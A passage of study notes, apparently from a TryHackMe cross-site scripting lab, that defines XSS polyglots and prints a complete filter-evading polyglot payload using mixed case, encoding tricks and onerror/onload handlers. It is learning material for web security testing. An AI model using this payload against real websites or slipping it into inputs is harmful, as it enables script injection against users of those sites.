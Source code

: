 ![Pasted image 20241106105533.png](../../../../IMAGES/Pasted%20image%2020241106105533.png)



#### **Polyglots:**

  

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.  

  

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``
